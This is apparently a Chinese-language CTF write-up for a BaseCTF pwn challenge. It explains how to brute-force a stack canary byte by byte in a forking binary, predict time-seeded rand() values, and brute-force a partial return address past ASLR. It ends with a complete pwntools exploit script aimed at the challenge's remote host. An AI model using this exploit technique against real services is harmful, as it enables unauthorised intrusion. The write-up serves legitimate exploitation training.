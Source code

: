 # basectf 没有Canary我要死了

 by Maple

有fork，还有Canary保护，那应该是爆破Canary，可以看[这里](../../basic/Canary.md)

在这之前还有伪随机数的利用

然后还有一个shell函数，里面是`  return system("/bin/cat flag");`这里也是直接爆破绕过ASLR

可以调试得到shell的偏移是0x02B1，由于程序不会崩溃，所以可以多次尝试，因为ASLR以页为单位随机化，所以直接每次`+0x1000`就好

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
#context(os='linux', arch='amd64',log_level='debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#p = process('./pwn')
p = remote('gz.imxbt.cn',20467)
libc = cdll.LoadLibrary('/lib/x86_64-linux-gnu/libc.so.6')
seed = libc.time(0)
libc.srand(seed)
#-------爆破Canary-------
canary = b'\x00'
for i in range(7):
    for j in range(256):
        num = libc.rand()%50
        p.sendline(str(num))
        payload = b'a'*0x68+canary+p8(j)
        p.send(payload)
        p.recvuntil('welcome\n')
        rec = p.readline()

        if b'smashing' not in rec:
            print(f'find{i+1}')
            canary +=p8(j)
            break
#log.info('Canary；'+hex(u64(canary)))

shell = 0x02B1

while(1):
    for i in range(16):
        num = libc.rand()%50
        p.sendline(str(num))

        payload = b'a'*0x68+canary+b'a'*0x8+p16(shell)
        p.send(payload)
        rec = p.readline()
        log.info(rec)

        if b'welcome' in rec:
            p.readline()
            shell+=0x1000
            continue
        else:
            break
p.interactive()
```

